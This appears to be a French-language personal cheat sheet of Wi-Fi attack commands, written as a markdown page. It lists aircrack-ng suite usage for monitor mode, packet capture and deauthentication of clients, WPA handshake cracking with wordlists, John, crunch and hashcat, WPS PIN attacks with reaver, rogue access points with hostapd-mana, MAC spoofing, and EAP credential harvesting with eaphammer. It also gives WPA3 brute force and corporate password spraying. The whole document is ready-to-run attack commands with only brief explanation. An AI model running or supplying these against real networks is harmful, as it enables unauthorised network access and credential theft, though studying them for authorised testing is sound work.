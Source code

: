 ## Connecter clef USB à Virtual Box

1. Menu config : ajouter USB
2. En haut sur entrée --> cocher la clef USB
3. Si ne fonctionne pas (rien pendant le snif) --> changer de port

## Tuer les processus

```bash
sudo airmon-ng check
sudo airmon-ng check kill
```

## airmon-ng

```bash
sudo airmon-ng start wlan0 # récupérer le nom
sudo airmon-ng start wlan0 3 # ajouter le numéro de channel
sudo iw dev wlan0mon info
sudo iwconfig wlan0mon
sudo airmon-ng --verbose
sudo airmon-ng --debug
sudo airmon-ng stop wlan0mon
```

# Air* tools

## airodump-ng

```bash
sudo airodump-ng wlan0mon -c 2 # récupérer BSSID
sudo airodump-ng wlan0mon --band abg
```

### Options

```bash
-c : channel
-w : sortie dans un fichier
--bssid : capturer uniquement selon le BSSID
```

### Explication

```bash
BSSID : adresse MAC du point d'accès
PWD : niveau du signal
RXQ : qualité de la réception
Beacons : nombre de trames envoyées par l'AP
Data : nombre de paquets capturés
#/s : nombre de paquets / seconde
CH : numéro de channel
MB : vitesse maximale prise en charge par le point d'accès
ENC : algorithme de chiffrement
CIPHER : chiffrement détecté
AUTH : protocole d'authentification
ESSID : SSID
```

## aireplay-ng

```bash
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
sudo iwconfig wlan1mon channel 11
```

## aircrack-ng

```bash
aircrack-ng -w /usr/share/john/password.lst -e livebox -b 34:08:04:09:38:3D cap01.cap
```

## WPA Attaques

### John

```bash
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e livebox -w - ~/cap01.cap
```

### Crunch

```bash
crunch 11 11 -t password%%% | aircrack-ng -e livebox cap01.cap -w -
```

### Hashcat

```bash
/usr/lib/hashcat-utils/cap2hccapx.bin cap01.cap output.hccapx
hashcat -m 2500 --depreciated-check-disable output.hccapx /usr/share/john/password.lst
hcxpcapngtool -o hash.hc22000 cap01.cap
hashcat -a 0 -m 22000 hash.hc22000 /usr/share/john/password.lst
```

## airdecap-ng

```bash
sudo airdecap-ng -b 34:08:04:09:3D:38 opennet-01.cap
```

## Attaque WPS

```bash
wash -i wlan0mon
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K # Pixie
-p # code pin vide
```

## Usurper un point d'accès

```bash
sudo airodump-ng -w discovery --output-format pcap wlan0mon
sudo hostapd-mana Mostar-mana.conf
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```

## Changer adresse MAC

```bash
systemctl stop network-manager
ip link set wlan2 down
macchanger -m b0:72:bf:44:b0:49 wlan2
ip link set wlan2 up
```

## Connecter au WiFi

### WPA3

```ini
network={
    ssid="your_ssid"
    psk="your_password"
    key_mgmt=WPA-PSK SAE
}
```

### Commandes

```bash
sudo wpa_supplicant -Dnl80211 -iwlan2 -c free.conf
sudo wpa_supplicant -Dwext -iwlan1 -c web.conf
sudo wpa_supplicant -i wlan0 -c wifi-client.conf
sudo dhclient wlan2 -v
nmcli device status
nmcli device set wlan0 managed yes
nmcli device connect wlan0
nmcli dev wifi list
nmcli dev wifi connect "YOUR_SSID" password "YOUR_PASSWORD"
nmcli connection show
```

## Lister les IP

```bash
sudo arp-scan -I wlan5 -l
```

## WPA MGT

### Récupérer mot de passe

```bash
python3 ./eaphammer --cert-wizard
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```

### Bruteforce ESSID

```bash
mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt
```

### Bruteforce WPA3

```bash
./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```

### Password Spray

```bash
cat ~/top-usernames-shortlist.txt | awk '{print "CONTOSO\\" $1}' > ~/top-usernames-shortlist-contoso.txt
./air-hammer.py -i wlan4 -e wifi-corp -P 12345678 -u ~/top-usernames-shortlist-contoso.txt
```